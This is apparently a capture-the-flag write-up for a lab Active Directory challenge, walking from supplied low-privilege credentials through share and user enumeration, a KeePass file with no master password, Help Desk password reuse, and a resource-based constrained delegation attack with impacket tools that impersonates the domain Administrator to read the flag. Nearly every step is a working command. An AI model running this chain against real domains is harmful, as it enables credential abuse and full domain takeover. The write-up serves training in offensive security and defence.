



# Active Directory Forward Challenge - Writeup


# Initial Access

The challenge provides the following credentials:

```
Username: j.smith
Password: JSmith@IT2024
```

---

# Reconaissaince

The first step is to identify the services running on the target.

```bash
nmap -sV -sC -T5 10.114.135.78
```


```bash
nxc smb 10.114.135.78 -u 'j.smith' -p 'JSmith@IT2024' --shares
```

Among the available shares, the **Downloads** share is writable.

To inspect its contents:

```bash
nxc smb 10.114.135.78 -u 'j.smith' -p 'JSmith@IT2024' --spider Downloads --regex .
```

Output:

```text
//10.114.135.78/Downloads/.
 //10.114.135.78/Downloads/..
```

The share is empty, so no useful files are found.

---

# Testing Remote Desktop Access

Since SMB did not reveal anything interesting, test via rdp

```bash
nxc rdp 10.114.135.78 -u 'j.smith' -p 'JSmith@IT2024'
```

Output:

```text
[+] ctf.local\j.smith:JSmith@IT2024 (Pwn3d!)
```

The credentials are valid for RDP.

Connect using xfreerdp:

```bash
xfreerdp v:10.114.135.78 /u:j.smith /p:JSmith@IT2024 /dynamic-resolution
```




# Discovering a KeePass Database

While browsing the user's Documents directory, a KeePass password database is discovered.

Opening the database reveals that it **does not require a master password**, allowing immediate access.

Inside the database is an entry belonging to another employee.



Recovered credentials:

```
Username: t.jones
Password: Helpdesk01!
```

---

# Enumerating the New Account

Verify the newly obtained credentials.

```bash
nxc smb 10.114.135.78 -u 't.jones' -p 'Helpdesk01!'
```

The credentials are valid.

However:

- No interesting SMB shares
- No useful files
- No administrative access

Testing RDP access also does not reveal anything useful.


---

# BloodHound Enumeration

Collect Active Directory information.

```bash
bloodhound-python -u 't.jones' -p 'Helpdesk01!' -d ctf.local -ns 10.114.135.78 -c All
```

After importing the data into BloodHound, no obvious privilege escalation path is visible for **t.jones**.

---

# Enumerating Domain Users

Since BloodHound did not reveal a path, enumerate domain users.

```bash
nxc smb 10.114.135.78 -u 't.jones' -p 'Helpdesk01!' --users
```

Output:

```text
Administrator
Guest
krbtgt
j.smith
t.jones
r.williams
svc.helpdesk
```

One observation immediately stands out.

Both:

- t.jones
- r.williams

belong to the **Help Desk** department.

Because the password appears to be a default departmental password, password reuse is a likely possibility.


Test the same password against **r.williams**.

```bash
nxc smb 10.114.135.78 -u 'r.williams' p 'Helpdesk01!'
```

The authentication succeeds.

Recovered credentials:

```
Username: r.williams
Password: Helpdesk01!
```




The important permission is:

```
AllowedToAct
```

More specifically, the user can configure **Resource-Based Constrained Delegation (RBCD)**.

---

# What is Resource-Based Constrained Delegation?

Resource-Based Constrained Delegation allows a computer account to impersonate users when accessing a target service.

Unlike traditional Kerberos delegation, the target computer itself specifies **which computer accounts are allowed to impersonate users** by storing this information in the attribute:

```
msDS-AllowedToActOnBehalfOfOtherIdentity
```

If an attacker can modify this attribute, they can allow a machine they control to impersonate any domain user—including Domain Administrators.

This ultimately leads to privilege escalation.

---

# Step 1 - Create a New Computer Account

Create a new machine account:

```bash
impacket-addcomputer 'ctf.local/r.williams:Helpdesk01!' \
-dc-ip 10.114.135.78 \
-computer-name 'Attacker-PC$' \
-computer-pass 'Password123!'
```

This creates the machine account:

```
Attacker-PC$
```

---

# Step 2 - Configure RBCD

Configure the Domain Controller so that the new machine account is trusted for delegation.

```bash
impacket-rbcd -action write -delegate-to 'DC01$' \
-delegate-from 'Attacker-PC$' \
-dc-ip 10.114.135.78 \
'ctf.local/r.williams:Helpdesk01!'
```

This modifies the attribute:

```
msDS-AllowedToActOnBehalfOfOtherIdentity
```

on the Domain Controller.

Now **Attacker-PC$** is permitted to impersonate users when accessing services hosted on **DC01**.

---

# Step 3 - Request a Service Ticket

Request a Kerberos service ticket while impersonating the Domain Administrator.

```bash
impacket-getST -spn 'cifs/DC01.ctf.local' \
-impersonate 'Administrator' \
'ctf.local/Attacker-PC$:Password123!' \
-dc-ip 10.114.135.78
```

This generates a Kerberos ticket cache:

```
Administrator@cifs_DC01.ctf.local@CTF.LOCAL.ccache
```

---

# Step 4 - Use the Kerberos Ticket

Export the ticket:

```bash
export KRB5CCNAME=Administrator@cifs_DC01.ctf.local@CTF.LOCAL.ccache
```

Then authenticate using Kerberos.

```bash
impacket-smbclient -k -no-pass DC01.ctf.local
```

Because the ticket represents the **Administrator**, SMB access is now granted with Domain Administrator privileges.

---

# Retrieve the Flag

Navigate to the Administrator desktop.

```text
use C$
cd Users\Administrator\Desktop
cat flag.txt
```

Output:

```text
THM{**********************}
```
